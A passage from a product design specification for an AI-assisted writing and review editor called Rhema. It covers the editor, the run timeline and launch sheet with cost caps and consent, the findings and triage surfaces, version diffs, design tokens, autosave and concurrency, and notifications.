3. **Voice** defaults to *No voice* (⚑); the picker lists Your voices and House styles with pills, allows `never-built` voices with a hint, and offers *Create a voice…* inline (REQ-PERSONA-20).
4. Create lands the user on a Timeline whose head is the correct next-step card: *Scratch* → Desk open on Chat with four chips (Research a question · I have a thesis · Interview me · Paste my notes); *Outline* → outline on the Page, "Draft v1" card with estimate; *Draft* → `v1 (imported)` on the Page, "Review v1" card with estimate.
5. The fourth entry point (draft + existing review) is an *Import review* action inside the project, 1.x.

**REQ-IDE-5.** Exactly three entry points plus title, protocol/venue and voice; creation lands on the correct next-step card. *(ADR-128, R7HOME.2b, 2026-11-06: new project is an immediately created blank Page — no dialog — with a focused inline "Untitled" title; the three entry points become the empty-Page affordance row (Import a file · Paste text · Start from an outline · Ask in chat); protocol defaults to Essay and venue/voice live in Project settings.)* **REQ-PROD-8.** Version labels are importable (a project may start at v3); rounds are numbered independently of versions.

### 5.4 The Page (editor)

The Page renders any artifact; for the working draft it is a Tiptap/ProseMirror WYSIWYG over the **Rhema Markdown profile** (ledger H9): CommonMark/GFM plus footnotes (`[^n]`), inline and block math, structured citations (`[@key]` cite nodes over CSL-JSON items imported from BibTeX/CSL-JSON/Zotero), and figure blocks (§7.5). The profile is defined **as a ProseMirror schema first**; markdown is its canonical serialization (REQ-DATA-9 amended, §11.5). **Stable block ids** live in a sidecar map `{blockId → (ordinal, contentHash)}` stored with each version — never as comments or attributes in the text — stripped at materialization with the provenance map and re-derived on load by hash + ordinal with a small fuzzy step for edited blocks, so exports, diffs and the skills' mirror never see them (review 13 F23; needed by mobile block patches, REQ-MOBILE-6). Findings render as **decorations from a sidecar, never marks**, so the stored markdown stays clean and reviewed drafts stay immutable. **Provenance at MVP is block-level**, recorded from transaction origins (human / human-mobile / Drafter run vN / pasted / Assistant / suggestion-applied) into the `provenance_map`; span-level provenance *marks* and the span-level Authorship overlay are 1.x (REQ-POS-10; review 13 F46). The **block-level Authorship overlay ships at MVP** as a View-menu (Advanced) toggle rendered as sidecar decorations, read-only, never stored in the markdown (REQ-POS-8), and agent-origin transactions record **span-granularity provenance at capture** — write-only, degrading to block-level `mixed` on any human edit inside a recorded span, no span rebasing (REQ-POS-9; matrix row 39).

Status bar meters (REQ-PROD-14): word count, reading time, and the venue cap from the protocol's `length_norms` and venue row ("+212 over WaPo"); over-cap shows the *Cut to length* chip once that workflow ships (1.x) and a plain "+212 over" meter until then.

Editing rules on the Page: editing an **unreviewed** draft is in place (autosave, restore points); editing a **reviewed** draft forks immediately to `v(N+1) origin=human_revision` with a banner ("Editing v3 · findings from v2 follow your text"; typing forks without a confirm, **REQ-IDE-32**), and the Margin shows the review's findings **projected onto v(N+1)** by default with a "from Review of v2" label on each card; a finding whose anchor is lost moves to *Whole piece* with "passage changed — still applies?" (review 12 #7; `Finding.projections[]`, §11.3). **During a writer-run or while a reader-run has frozen the head, the Page is read-only with a banner** ("Review in progress on v2 — comments here become guidance for the next run · Cancel run to edit"); comments are allowed and become `Guidance`; the working-copy fork and reconciliation-as-suggestions are 1.x (review 13 F24; §5.10). At MVP there is **no in-document suggestion mode**: agent-proposed changes (Figure insertion, Assistant suggestions, the Apply verb's replacement) arrive as a **proposal card beside the Page** whose *Accept* applies a plain ProseMirror transaction with agent origin, excluded from the human's undo stack (REQ-IDE-45 amended; REQ-DATA-28 amended); Line edit (1.x) ships with suggestion marks. **REQ-SPEC-19.** The MVP editor comprises: the schema-first Rhema Markdown profile with import; findings as sidecar decorations; the proposal card; Yjs + y-indexeddb + Hocuspocus autosave with restore points; server-side read-only compare (§5.8); block-level provenance, with the block-level Authorship overlay toggle (REQ-POS-8) and span-granularity capture at agent-origin transactions (REQ-POS-9); Page read-only during runs. Suggestion marks, working copies, `prosemirror-changeset`, Source mode and span-level provenance *rendering* (marks, span overlay, span rebasing) are 1.x.

### 5.5 The round timeline as the runs list

The Timeline is a vertical list, newest at top, of **round cards**: `vN` chip → review run → revise run → `v(N+1)` chip. Above the newest round sits the **next-step card**; below the oldest, the **Outline** chip (or "Imported draft"). This is the manifest round log rendered as run rows [design/2 §5.1].

```
┌ TIMELINE ───────────────────────────────────┐
│ [Draft ▾] [Review ▾] [Revise ▾]      ⌘⇧R    │   ← the three verbs; each opens the run sheet
│─────────────────────────────────────────────│
│ NEXT  Review v3 · est. 1,240 cr · Standard  │   ← next-step card (state function §6.3)
│─────────────────────────────────────────────│
│ ROUND 2                                      │
│  ◐ Review of v2                 14 min · 412/1,860 cr │  ← run card (expanded)
│     ✓ Reading the piece · piece brief         │
│     ℹ Confirm scope · as read — wrong? Stop  │  ← informational scope card (blocks only at Full board, §6.4)
│     ✓ Reading the prose                      │
│     ◐ Checking claims   23 / 56               │
│     ○ Mapping the field                      │
│     ○ Second read (independent)              │
│     ○ Weighing the argument                  │
│     ○ Editor's letter + rubric               │
│     [Pause] [Stop…] [Steer ▾]  [Live feed]    │
│  ● v2  ·  edited by you  ·  12,350 words     │
│─────────────────────────────────────────────│
│ ROUND 1                                    ▸ │  ← collapsed: "v1 → review (49 findings) → revise (14 moves) → v2"
│─────────────────────────────────────────────│
│ ▸ Outline · 10,125 words · uploaded          │
└─────────────────────────────────────────────┘
```

**Run card states** (from the canonical run state machine, §12.4):

| State | Card shows | Primary action |
|---|---|---|
| queued | position; "starts when Review of v2 finishes" / "starts when a slot frees · ~12–20 min" (the ETA range the phase model already computes) | Cancel |
| running | phase list ✓/◐/○, live per-phase counters (`23/56 claims`, `6 sources read`, `2/3 audit walks`), elapsed, **credits spent / cap**, ETA band from historical phase timings | Pause · Stop… · Steer ▾ · Live feed |
| waiting_gate | the approval card with its deadline (or "waiting for you") | Approve etc. |
| completed | one-line summary; deliverable chips (Letter · 41 findings · Claims 56 · Second read · Rubric); cost actual vs estimate; Run report link | Open deliverable |
| completed_partial / failed | phase reached, partial artifacts listed, credits refunded for undelivered phases, Resume | Resume · Report |
| cancelled | as failed minus the error; partials labelled *partial* | Resume |

User-facing phase names per workflow are listed in §6.2. Opt-out phases disabled by the rigor notch appear **greyed "off"** on the card and in the run report (REQ-IDE-12). **REQ-IDE-11.** Run cards render orchestrator-emitted phase state, counters, elapsed, credits vs cap, and an ETA band; no progress element derives from agent-authored text.

**Walkthrough and run report (ledger D20).** A completed run gains **Walkthrough** (≤200 words, model-written from the delivered artifacts: what was delivered and the one thing to read first; **MVP** — it is one package-class model call and three MVP behaviours depend on it, review 11 #23) and **Run report** (phase timings, credits by phase × seat, flags, unmet targets, suggested guidance for the next round). Tokens are Advanced-tier (REQ-IDE-19).

> **ADR-130 (2026-11-08, 253_R7REC.1 banner — decision 213_R7COPY.0, 2026-11-03):** the generated
> run walkthrough is **retired** — the `run.walkthrough` model call is removed end-to-end and the
> run card is composed deterministically from the delivered record ("What it delivered" — REQ-COPY-4).
> The D20 walkthrough row above and its dependents (≤200-word model call, walkthrough retry,
> walkthrough-as-artifact consumers) are superseded, not amended — ADR-130 carries the ruling
> (GD-UX-WALKTHROUGH.R7). The run report stands unchanged.

**Live feed** (Desk tab) renders the run's user-visible events in two densities plus a developer flag: *Summary* (phase cards only), *Details* (default: phase cards + `source.read` cards, `claim.checked` verdict chips, `finding.emitted`, `artifact.written`, `subagent.started/finished`, `check.result`), and *Verbose* (Advanced disclosure only: every search query and fetch, blocked-domain notices, retries). No event carries prompt text, agent reasoning or private-memory content (REQ-IDE-14; event schema §12.5). Findings stream into the Margin as provisional (dashed) cards during a review and are finalized at delivery; **provisional cards carry no disposition controls**, and a finding the second-read reconciliation later marks *rejected* after the user pre-triaged it surfaces as a conflict row ("you accepted this; the Editor withdrew it — keep your disposition?") rather than silently dropping either (REQ-IDE-15 amended; review 12 #31).

### 5.6 The run sheet (launcher for everything)

Every cost-bearing action — the three verbs, a palette verb, an Assistant `start_workflow`, a selection-popover action, a mobile "run with defaults" — lands on the same sheet, which is also the product's only paywall (REQ-GROWTH-13) and its consent gate [design/4 §5; design/6 §2.3]. The sheet is a **launcher, not a control panel** (review 12 #5): two tiers — the top holds the title line, the Rigor control, the estimate and the button; one collapsed row summarises everything else and expands to the full sheet.

```
┌ Review this draft ─────────────────────────────────────────────── ✕ ┐
│  Review v2 · 5,180 words · 21 claims                                 │
│                                                                      │
│  Rigor       ○ Quick        ● Standard        ○ Full board           │
│              5 key claims;  every claim;      + different-model      │
│              no second read same-tier 2nd read second read           │
│                                                                      │
│  ┌──────────────────────────────────────────────────────────────┐    │
│  │  ≈ $5.60 · never more than $8.40      ~25–40 min             │    │
│  │  (560 credits · cap 840 · 590 left after the cap)  ⓘ         │    │
│  └──────────────────────────────────────────────────────────────┘    │
│  Academic · LRB · near-final · Balanced · S. J. Sebastian   ▸ Change │
│  + Add a note to the Editor · 3 standing notes apply ▸               │
│  ▸ Why this estimate?  21 claims × 24 cr ≈ 500 · 5,180 words ≈ 60   │
│                      [ Ask a question first ]   [ Run review ]       │
└──────────────────────────────────────────────────────────────────────┘
   ▸ Change expands:  Protocol · Venue · Stage · Voice · Guidance box ·
     Model tier (Base / Balanced / Frontier with multipliers; model names in
     small type) · Advanced: phase toggles with signed deltas · Budget cap ·
     Approvals (Named approvals / Wait for me at each / Run to completion) ·
     Variants (1.x) · "Don't ask me to confirm runs under N credits"
```

Interaction spec:
1. On open the sheet shows an estimate **immediately** from the word count and the protocol's typical claim density ("≈ $5.60, refining…"); the cached claim-count pre-pass (Haiku-class, ≈5 credits COGS absorbed by Rhema, cached per draft version) refines the number in place within ≤5 s. The Run button is never disabled waiting for the pre-pass; a run launched before it returns is capped from the provisional estimate (review 12 #12).
2. **Rigor is the one first-class lever**; Model tier is a consequence of Rigor (§6.5) and is changed only under the collapsed row (this resolves §4.3 vs the v1.0 sheet in favour of §4.3). Every change recomputes estimate, cap and time within 100 ms; Advanced toggles show a signed credit delta (REQ-BILL-5).
3. Defaults: Rigor Standard (trial and paid), Full board remembered per project once chosen; Model = account default (Balanced on paid, Base on Free) or project override; Approvals = Named approvals.
4. `cap = ceil(1.5 × estimate)`, editable upward only; passed to the engine as `maxBudgetUsd`, to the proxy as the run's hard budget (§12.7), and to the ledger as a `hold`.
5. **Dollars-first at the decision moment** (REQ-BILL-1 amended; review 12 #26): the box shows one line — "≈ $5.60 · never more than $8.40" — with credits, cap and balance-after in the second line and the tooltip. **Consent:** if `estimate > 500 credits`, or `estimate > 200 credits and > 25% of spendable balance`, the button reads "Confirm and run" and needs a second click; the per-user "Don't ask under N" (max 1,000) removes it below N (REQ-BILL-4 amended: the percentage rule has a 200-credit floor so small accounts do not double-click everything — review 12 #27).
6. **Insufficient balance** (`cap > spendable`): the estimate box becomes a resolution panel — lower the rigor · use Base · turn off fact-check · add credits / upgrade — cheapest fitting option primary, plus one line naming the plan that would have covered it; never silently bill.
7. Launching Review or Revise on the working head first **promotes** it to `vN` ("will be promoted to v2").
8. **Obligations on the scope line (v0.3):** a Review sheet for v(N+1) lists the open obligations on its scope card ("4 open obligations will be checked"); a Revise sheet shows "this run addresses 7 open obligations"; an obligation whose defer horizon has arrived surfaces here and on the export dialog (REQ-OBJ-6; §11.7).
9. Scoped runs show the scoped estimate beside the whole-draft estimate (REQ-CHAT-24). **Trial:** while the entitlement is unused, a Review sheet within its terms shows **Included** in place of the estimate box (no dollars, no cap arithmetic, no consent click); Balanced/Frontier and Full board are shown locked with prices; runs over 6,000 words offer "review the first 6,000 words, or upgrade" (§14.3).
10. On Run: `POST /projects/:id/runs` creates the run row, places `hold(cap)`, closes the sheet; the run card appears with "spent 0 / cap 840"; estimate, cap, rigor, model, phase set, `rate_table_version`, claim and word counts are frozen on the run (REQ-BILL-6).

**Run creation model (REQ-SPEC-16; review 11 #12).** Estimation is a **stateless, cached** call — `POST /projects/:id/estimates {workflow, rigor, model_profile, inputs}` → `{estimate, cap, levers, claimCount?}` — that creates no `runs` row and emits `run.estimated`. A `runs` row is created only by the sheet's Run click (`POST /projects/:id/runs` with the client-generated `idempotency_key` minted at sheet open; the server stores `(billing_account, key) → run_id` for 24 h — review 13 F34). The `awaiting_consent` state and the `confirm_cost` gate exist only for runs created without a sheet in front of the user: the mobile "run next with defaults" (1.1) and Assistant-prepared runs the user confirms later; sheet-open never produces an abandoned row, and the consent second click is a client-side step, not a gate.

**REQ-IDE-13.** Every run is launched from the sheet showing target version, rigor, phase toggles with deltas (under the collapsed row), approval policy, estimate, cap and balance; the primary button is the only paywall. **REQ-CHAT-25.** The run sheet is the only way a run is created; the cap is passed as `max_usd`. **REQ-GROWTH-16.** `AskButton` / `RunButton` are the only components that trigger agent work; `RunButton` requires an `estimate` prop (lint-enforced).

### 5.7 The findings surface

**The finding object** [design/2 §7.1; design/3 §3.2]:

```ts
// FindingView — the IDE's read model; §11.3's Finding/Disposition are canonical and these names match them.
type Severity = "blocking" | "major" | "minor" | "note";     // note = copy-edit / line-level
type FindingKind = "claim" | "discourse" | "argument" | "structure" | "craft" | "voice" | "continuity";
type Origin = "editor" | "second_read" | "both";               // both = corroborated in reconciliation
type DispositionKind = "accept" | "adapt" | "rebut" | "defer" | "escalate";
interface FindingView {
  id: Id; correspondenceId: Id; draftId: Id;                    // Review keyed (version, run)
  kind: FindingKind; severity: Severity; origin: Origin;
  reconciliation?: "kept" | "rejected";
  anchor: Anchor | null;                                         // null = unanchored; Anchor per §11.3 (blockId + quote + offsets)
  projection?: Anchor;                                           // onto the open draft, when it is not the reviewed one
  title: string; body: string;
  evidence?: { claimId?: Id; verdict?: ClaimVerdict; urls: { url: string; accessed: ISO }[] };
  suggestion?: { replacement: string };                          // present ⇒ the free Apply verb is offered
  rubricDims: RubricDim[];
  letterSection?: "one_thing" | "major" | "strength" | "roadmap" | "considered_rejected";
  provisional: boolean;                                          // streaming during a run; no disposition controls
  disposition?: { kind: DispositionKind; rationale?: string; by: Actor; at: ISO; moveId?: Id; frozen: boolean; applied?: boolean };
}
// ClaimVerdict is §11.3's seven-value enum (six values, plus `verified_against_user_source` under the Memo protocol).
```

Anchoring: the **canonical anchor is `(blockId, quote, startOffset, endOffset)` in the canonical markdown of the frozen `vN`** (exact → normalized → fuzzy with confidence); Yjs relative positions are derived **projections** onto the live head computed on open and stored in `Finding.projections[]`, never the anchor of record, because the artifact a finding is about is a markdown blob, not a Y.Doc (review 13 F21; ledger H11). Unanchored findings head the list under "Whole piece" and are never dropped.

**Three surfaces, one list.** The same `Finding[]` powers the **Margin**, the Desk **Findings list** (the triage queue and the screen-reader surface), and the **Approve triage** card; selection is linked; filters (severity, kind, origin, disposition, section, has-URL, has-suggestion, open obligations — v0.3) are shared (REQ-IDE-24).

**Designed for volume (REQ-SPEC-7; review 12 #3).** A 2–5k essay yields 40–50 findings; a 15k Academic Full-board review yields 120–200. The surface has one answer per scale:

- **Triage mode** (`⌘⇧T`, and the primary button on a fresh dossier above 30 findings): the Desk Findings list becomes a queue grouped by section, sorted blocking → major → minor → note within each section, with a progress pill ("23 / 150 decided"), *Next undecided*, and one finding at a time in the Margin with its passage scrolled into view; the five verbs, Apply and `J/K` work as everywhere. Leaving triage mode keeps every decision.
- **Margin clustering:** cards-beside-passages is the display for ≤ ~30 findings; above that, or whenever more than one finding anchors inside one paragraph, the Margin renders one stacked chip per paragraph ("4 findings · 1 major") that expands on focus. Automatic; no setting.
- **Rationale rules:** a rationale is required for *rebut* and *escalate* only; *defer* defaults to "Not this round" (editable); *accept*, *adapt* and *apply* never require text (REQ-MOBILE-11 amended to match).
- **Bulk with one preview:** *Apply all notes*, *Defer all minor*, *Accept all in §III* open **one** consolidated preview — a checklist with unchecks plus a single diff for applied suggestions — never per-item sheets; there is still no blind accept-all (REQ-IDE-29 amended).
- **Let the Drafter go first:** on dossiers above 30 findings the next-step card's advertised path is "Let the Drafter propose a triage, then decide the N it can't" — the Revise run proposes dispositions, and the Approve-triage card (which waits) opens with **Approve proposals** as its primary button, escalations pinned first, and per-row overrides; pre-triage in the Margin stays available for those who want to read everything first (§6.4 mechanics unchanged).
- **Severity budget:** the Quick notch caps findings at **40**; the remainder is folded into the letter's roadmap as counts, so trial users never meet the 150 case.

```
PAGE                                         MARGIN
…the state does not merely watch; it         ┌ ▲ MAJOR · claim · unsupported ──────┐
adjudicates who may be seen, and the          │ "the 2019 Home Office guidance…"    │
2019 Home Office guidance made this           │ No such guidance located; closest    │
explicit when it ~~~~~~~~~~~~~~~~~~~~~~~      │ is the 2020 …  [gov.uk ↗] [wayback ↗]│
                                              │ Editor · Checking claims · ✓✓ also   │
                                              │ raised by the second read            │
                                              │ [Apply] [Accept] [Adapt] [Rebut] [⋯] │
                                              └──────────────────────────────────────┘
```

Highlight styling: underline weight encodes severity (blocking solid 2 px, major solid 1.5 px, minor dotted, note faint); hue encodes kind (claim amber, discourse violet, argument blue, craft teal, voice/continuity rose); overlaps stack with a numbered tick; all marks ≥ 3:1 against the paper. Finding cards are toggled inside the View menu (§5.1); *Show suggestions inline* renders a suggestion-bearing finding's replacement as a read-only preview beside the passage.

**Apply — the free verb (REQ-SPEC-6; review 12 #1).** A finding that carries `suggestion.replacement` offers **Apply** as its primary button (for `note`-severity findings it is the only primary; *Accept* moves to the overflow). Apply writes the replacement into the working head **now, for free**, as a plain transaction with provenance `suggestion_applied`, forking to v(N+1) `origin=human_revision` if vN is frozen (typing already forks), and records the disposition `accept · status: done · by: user · applied: true · moveId: human`. The next Revise run treats it as a made move ("Revise using your edits", §6.3). **Accept** keeps its meaning — *the Drafter applies this at revision time* — for findings that need rewriting rather than replacement. Apply is disabled while a writer-run holds the lock, with the queue explanation ("never two writers of one draft"). Mobile offers Apply only on 1.1 light-edit builds; at MVP the phone shows Accept with "applied at revision time" (§10.3).

**Evidence.** Claim findings show the verdict chip and every URL the Editor fetched with its accessed date; from v0.3 a claim may carry multiple `sources[]` edges with stances (supports / contradicts / contextualizes), and the evidence popover lists every consulted source with its stance — multi-source checks the Editor actually performed no longer flatten to one URL (REQ-OBJ-18). Because every cited URL — including every `sources[].url` — must appear in the run's fetch log (REQ-VIS-9 amended), each URL carries a **"fetched ✓"** chip — the transparency floor made visible (REQ-IDE-25). The first dossier a user opens carries the once-per-surface inline explainer: "Every link here was actually opened and read by the Editor during this run — never quoted from memory" (review 12 #32).

**Second-read reconciliation.** *Corroborated* (origin both, ✓✓ chip); *second read only, kept*; *rejected by reconciliation* — shown to the author in a collapsed group with the Editor's reason, no disposition controls, but **promotable** ("I want to address this anyway" creates a user-origin ledger row) (REQ-IDE-26). Reconciliation-rejected findings spawn no obligation unless promoted (§11.7).

**Obligations on the surface (v0.3).** Every blocking/major finding card shows its obligation-state chip (`open · addressed · discharged · rebutted · deferred · mooted · reopened` — `mooted` renders as discharged-pending until confirmed at the next triage, §11.7); triage-mode's progress line adds the open-obligation count ("obligations: 9 open"); "Add to obligations" is offered on any finding, and free-form obligations come from the palette (`source: 'user'`). Spawn, routing, discharge and lineage semantics are §11.7 (REQ-OBJ-2/3/6).

**Dispositions write the response ledger** (REQ-IDE-27/28): clicking a verb writes the ledger row `status: proposed, by: user` and collapses the card; *rebut* and *escalate* open an inline rationale field first; *defer* pre-fills "Not this round"; *adapt* opens an editable suggestion box pre-filled with the agent's suggestion. Dispositions made **before** a Revise run are *pre-triage* and pass as highest-precedence guidance ("you pre-triaged 14 of 41"); dispositions at the **Approve triage** card override the agent's proposals row by row and are written back into the ledger file the Revise phase reads (§11.5, REQ-SPEC-9); at delivery the ledger is **frozen** — cards lock, and each row links forward to its move and changed range in v(N+1). Keyboard (active only while the Margin or Findings list has focus — never while the caret is in the Page; review 12 #17): `J/K` next/previous, `P` apply, `A D R F E` = the five verbs, `Enter`/`Esc` open/collapse, `⌥J/⌥K` next major-or-blocking.

**Bulk actions** exist only for safe classes — *Apply all notes*, *Accept all in section*, *Defer all minor* — each through **one consolidated preview** (checklist + single diff) on a scratch copy; there is no blind accept-all (REQ-IDE-29 amended).

**Rubric view** (Desk › Findings › Rubric): eight dimensions scored 1–5 (*Thesis & contribution · Argument rigor · Evidence & accuracy · Originality & situatedness · Structure · Prose · Voice & audience fit · Intellectual honesty*), each row listing the findings that bear on it and any **entailment cap** with the finding that entailed it; **never an aggregate** (REQ-IDE-30). Rendering: each dimension is a **five-dot scale** with the cap's reason inline on the row, laid out as a list rather than stacked bars, so the view cannot be read as a score out of 40 (review 12 #15). Caps: a Contradicted/Misleading Tier-1 claim caps Evidence at 2; an ignored strongest counterargument caps Argument at 3; unwitting reinvention caps Originality at 2; second-read thesis divergence caps Thesis at 3. Protocols may swap at most one dimension and add at most one (§6.7).

**Editor's letter** opens on the Page in Read mode with a sticky mini-TOC (Verdict · The one thing · Majors · Strengths · Roadmap · Considered and rejected · Attestation); every passage reference resolves to a finding link, and **while the letter is on the Page the Margin shows the referenced finding cards** (each opens the passage in a split below the letter), so a passage link and its finding are visible together (review 12 #15). The attestation section is replaced by the runtime's boundary chip ("The Editor's sandbox never had the Drafter's notes mounted — verified by the hydration manifest and the proxy log · 52 URLs fetched · second read: draft only") (REQ-IDE-31; REQ-PROD-2; §12.6).

**REQ-IDE-23.** Findings render as decorations on the frozen reviewed version (and as projections on a later human-revised version) with severity/kind styling; unanchored findings are listed, never dropped. **REQ-SPEC-4.** The severity vocabulary blocking / major / minor / note is emitted explicitly by the ported `editorial-review` in its structured findings block (§11.1), never inferred from prose.

### 5.8 Versions and diffs

**Version rail** at the top of the Page (also the Browser's Drafts section):

```
Outline → v1 🔒 → v2 🔒 → v3 ● draft            [Compare ▾] [Restore points ▾]
          Drafter   edited by you  you
          review ✓  review ✓       —
```

Each chip: version, origin (`drafted_from_outline | response_to_review | human_upload | human_revision | duplicate | imported | cut`), reviewed/answered flags, word count, date; 🔒 = frozen. Human-revised versions carry a **"claims pending verification"** chip (ledger N4; REQ-PROD-11). From v0.3 each chip also carries the **open-obligations chip** — `⚑ 3 open · 2 addressed` (blocking/major only in the chip; the full list one click away) — and the project card pill counts blocking obligations in the *Reviewed* and *Edited by you* states (REQ-OBJ-6; §11.7).

**Restore points** (auto every 5 min of activity, on blur/close, before any run; named on `⌘S`) live in a dropdown grouped "Earlier today / Yesterday / Before Review of v2 / Named"; picking one previews a diff and *Restore* applies as an undoable transaction; restore never touches correspondence or agent memory (REQ-IDE-34). Restore points are stored as Yjs **update deltas** chained from a daily full snapshot, not whole-state blobs per debounce (review 13 F47).

**Compare** (`/v/:n/diff/:m`) has three layouts: Side-by-side, Inline, and **What changed and why**:

```
WHAT CHANGED · v2 → v3 · 14 moves · 6 accepted · 5 adapted · 2 rebutted · 1 deferred
┌ Move 3 · Replace the Home Office example ─────────── discharges F-07 (major, claim) ┐
│ accept · "The 2019 guidance could not be located; replaced with the 2020 …"        │
│ §II ¶4  −2 sentences  +3 sentences                                     [Jump] [▸]   │
└────────────────────────────────────────────────────────────────────────────────────┘
┌ Move 9 · Tighten §V transition ───────────────────── adapts F-22, F-23 (minor, craft) ┐
…
┌ Unlinked changes (2) ──────────── edits not tied to a finding (coherence read) ─────┐
```

The server computes a block-aligned markdown diff and joins each changed block to ledger moves via the move's discharge evidence using the same quote-resolution service as findings; hunks with no move are grouped *Unlinked*; rebutted findings appear with rationale and no hunk. From v0.3 the move card's discharge line names the obligation — "discharges OBL-3 (F-07, carried from v2) — verified by gap check" — and a header strip summarizes "7 obligations addressed · 1 rebutted · 2 still open" beside the move counts (REQ-OBJ-6; §11.7). At MVP all three layouts are **rendered read-only from the server diff** — no `prosemirror-changeset` in the editor (review 13 F46; REQ-SPEC-19). Inline comments on any hunk become `Guidance` for the next Revise run (REQ-IDE-33). Mobile shows the walkthrough and ledger summary instead of the diff.

### 5.9 Design system

**Tokens** — two textures, one token set; shell neutral cool-dark, paper warm [design/2 §10.1]:

```css
:root {
  --shell-bg:#0f1114; --shell-surface:#161a1f; --shell-raised:#1d2229; --shell-border:#2a3039;
  --shell-fg:#e6e8eb; --shell-fg-muted:#9aa3ad; --shell-fg-faint:#5f6873; --accent:#8ab4f8;
  --paper-bg:#17161a; --paper-fg:#e8e4dc; --paper-fg-muted:#b8b2a7; --paper-rule:#2b2a2e;
  --sev-blocking:#ff7b72; --sev-major:#f0b24a; --sev-minor:#6cc4a1; --sev-note:#8d97a5;
  --kind-claim:#f0b24a; --kind-discourse:#b48ef2; --kind-argument:#8ab4f8; --kind-craft:#5fd1c8; --kind-voice:#f28ea8;
  --state-running:#8ab4f8; --state-needs-you:#f0b24a; --state-ready:#6cc4a1; --state-failed:#ff7b72;
  /* spacing 4-pt: --s1 4 --s2 8 --s3 12 --s4 16 --s6 24 --s8 32 --s12 48; radius 4/8/12 */
}
[data-theme="light"] { --shell-bg:#f6f7f9; --shell-surface:#fff; --shell-border:#e3e6ea; --shell-fg:#1a1d21;
  --shell-fg-muted:#5c6670; --accent:#2f6fdb; --paper-bg:#fffdf8; --paper-fg:#1d1c1a; --paper-rule:#e8e4dc; /* hues re-tuned ≥4.5:1 */ }
[data-paper="light"] { /* paper pinned light inside a dark shell */ }
```

Contrast: shell body ≥ 7:1, paper body ≥ 10:1, chips ≥ 4.5:1, non-text marks ≥ 3:1; no pure black or white anywhere. The landing page shares this token set (REQ-GROWTH-2).

**Typography:** paper body **Literata 17 px / 1.55** (Lora fallback; serif preset, default) or **Inter 16 px / 1.55** (sans preset; the only other choice); headings weight 600 at 2.0 / 1.625 / 1.375 / 1.125 em; measure 68 ch target (45 min, 80 max); paragraph spacing 1.0 em, no indent; shell UI Inter 13/14/12 px with tabular figures for counts and credits; mono JetBrains Mono 13 px for citation keys, Source mode (1.x), diff hunks; reader size stepper ±2 px, three steps; print/export 11 pt / 1.4, 6.5 in measure (REQ-IDE-39). From Substack (Q-14, research/5): the Lora-class serif at 17 px, the 65–75 cpl measure, the `.dark-mode` paper pinning, and the web-vs-app split.

**Theme policy** (ledger D22; R17): app theme Dark (default, Q-14) · Light · Auto, detected on first run, remembered, identical across landing → app; paper theme **pinned Light (default)** · *follow app* · pinned Dark, per project (`⌘⇧L`) — the light sheet inside the dark studio is the metaphor, and long-form reading on dark ground for hours is the minority preference (review 12 #13); the light theme is a real theme, every token defined; the pinned-light paper sits inset with a 1-px border and shadow so it reads as a sheet (REQ-IDE-38 amended).

**Motion:** streaming text (120-ms fade per block, caret pulse), phase progress (160 ms), finding arrival (200 ms slide + one tick pulse), pane transitions (160 ms); gate countdown numeric only, amber at 5 min; **no decorative motion on the paper, ever**; `prefers-reduced-motion` makes everything instant (REQ-IDE-40).

**State catalogue** (REQ-IDE-41): empty project (three entry cards; quiet serif title field), empty findings ("No review yet · Review v1 ≈ N cr"), streaming (block shimmer; live counters; sync pill "syncing"), loading (skeleton rows in shell, never spinners in the paper), run failed (red card with phase, reason, partials, refund line, Resume; Inbox item), sync offline (pill "offline · 3 changes queued"; editing continues), conflict (inline banner, never a modal), insufficient balance (button swap only), frozen version (lock banner). The only blocking modal in the product is the Cancel-run confirmation.

**Accessibility** (REQ-IDE-42): WCAG 2.2 AA (AAA for reading contrast); 2-px accent focus rings; no colour-only encoding; full keyboard operation; findings and approvals as ARIA landmarks with `aria-live="polite"` (assertive for spend gates); text resizable to 200% without horizontal scroll; the Desk findings table is the screen-reader surface, margin decorations `aria-hidden` with `aria-describedby` on underlines.

### 5.10 Autosave, offline, and concurrency

Four layers, invisible: keystrokes → Y.Doc → y-indexeddb (survives refresh/crash) → Hocuspocus → materialized markdown + restore points. The only UI is the **sync pill**: `synced ✓` · `syncing…` · `offline · n changes queued` (amber) · `read-only` (viewer or frozen). There is **no Save button, no unsaved-changes dialog, no beforeunload prompt**; `⌘S` marks a named restore point (REQ-IDE-43).

**Agent-vs-human concurrency** (REQ-IDE-44/45/46 amended; REQ-DATA-27/28 amended; review 13 F24):

1. A run **produces** a new version → ingested server-side; toast "v3 delivered · Open"; the rail gains a chip.
2. A run **reads** a version (Review of vN) → at launch the head is promoted to vN and frozen; **at MVP the Page is read-only for the run's duration** with the banner "Review in progress on v2 — comments here become guidance for the next run · Cancel run to edit" (review 13 F33: the Cancel release is on the Page, not only the home card). Comments are allowed and become `Guidance`. At delivery the user sees v2 (reviewed, locked) and the dossier; typing then forks v3 `origin=human_revision` as §5.4. The **working copy** (`v2-working`, "diverged from v2 (+312 words)", "carry your working-copy edits into v3 as suggestions") is **1.x**, scheduled with sharing roles where multi-writer merge is needed anyway.
3. An agent **proposes** an in-place change (Figure, Assistant suggestion) → a proposal card beside the Page; *Accept* applies one transaction with origin `agent:<seat>:<run>`; `⌘Z` never undoes agent-origin changes. Line edit (1.x) adds suggestion marks on top of the same transaction path.

Rule shown as a banner and enforced by the runtime: **never two writers of one draft**; a second writer-run queues with "starts when Review of v2 finishes".

**Conflicts** are semantic only: same user on two devices merges silently; non-prose records (settings, voice seed) get `If-Match` 409 with an inline "Updated elsewhere · Reload / Keep mine" banner on that form; edits made offline to a version frozen meanwhile land in a **new working head** (v(N+1) `human_revision`) on reconnect with an explanatory banner.

### 5.11 Notifications, Inbox, and returning to a finished run

| Event | In-app (Inbox + badge + toast) | Push (mobile) | Email | Default |
|---|---|---|---|---|
| Approval waiting (with or without deadline) | ● | ● time-sensitive | ● if unresolved after 15 min, carrying **signed one-click *Wait for me* and *Open* links** (never Approve — matching REQ-MOBILE-10) | on |
| Approval about to auto-proceed (T−10 min; also a reminder at 1 h before expiry) | ● | ● | ○ | on |
| Spend gate | ● | ● | ● | on, not configurable |
| Run finished (deliverable ready) | ● | ● | ● (hourly digest optional) | on |
| Run failed / cancelled by system / recovered | ● | ● failed only | ● failed only | on |
| Approval auto-proceeded on deadline (the decision and its cost) | ● | ○ | ● | on (email on by default — it is a spend event by another name; review 12 #9) |
| Voice profile stale | ● | ○ | weekly digest | on |
| Credits 50 / 80 / 100% | ● | ○ | ● | on |
| Trial ending (day 12); payment failed | ● | ○ / ● | ● | on, not configurable |
